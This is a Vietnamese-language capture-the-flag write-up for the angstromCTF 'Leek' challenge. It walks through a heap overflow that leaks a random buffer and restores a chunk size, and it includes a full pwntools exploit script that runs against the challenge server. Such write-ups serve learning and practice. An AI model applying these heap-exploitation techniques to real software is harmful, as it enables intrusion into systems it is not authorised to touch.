 # Angstromctf - Leek

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
leek: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=52fb15c64c5e12ea6c59efafa15237b40d51a3ea, for GNU/Linux 3.2.0, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Tiếp đến đưa file vào ida-64bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi

![main.png](images/main.png)

# 2. Phân tích 

![stream.png](images/stream.png)

Ở đây sau khi đầu vào chúng ta phải nhập giá trị của `v9` rồi in ra nó 

Sau đó bắt chúng ta nhập vào giá trị `s2` trước đó đã được `getrandom`

Nếu ta đoán đúng `0x64` lần thì ta sẽ tới được hàm `win()`

# 3. Khai thác

Đầu tiên mình sẽ thử nhập vào 8 ký tự

```
p.sendlineafter(b"VERFLOWS!!):", cyclic(0x8))
```

![gdb1.png](images/gdb1.png)

Ở đây do ta được cấp phát con trỏ `v9` và `s2`ở cạnh nhau nên có thể lợi dụng lỗ hổng heap_overflow

để leak giá trị `s2` và bypass `0x64` lần để tiến đến hàm `win()`

![heap1.png](images/heap1.png)

Cần lưu ý ở đây là heap sẽ có 1 chunk size (ở đây là `0x31`), nếu ta ghi đè giá trị này mà chương trình sau đó `free()` ta sẽ gặp lỗi

Vậy nên mình sẽ dùng lần ghi biến `v9` tiếp theo để trả lại giá trị của nó tại đó

# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("leek")
libc = elf.libc

local = True 
if local:
    p = process("./leek")
    #gdb.attach(p,gdbscript='''''')
else:
    p = remote('challs.actf.co', 31310)

elf = context.binary = ELF('./leek', checksec=False)

for i in range(100):
    p.sendlineafter(b"VERFLOWS!!):", b"a"*31)
    p.recvuntil(b"a"*31 + b"\n")
    leak = p.recv(32)
    p.send(leak)
    p.sendline(b"a"*24 + p64(0x31))
    print("Round", int(i+1))

p.interactive()

```


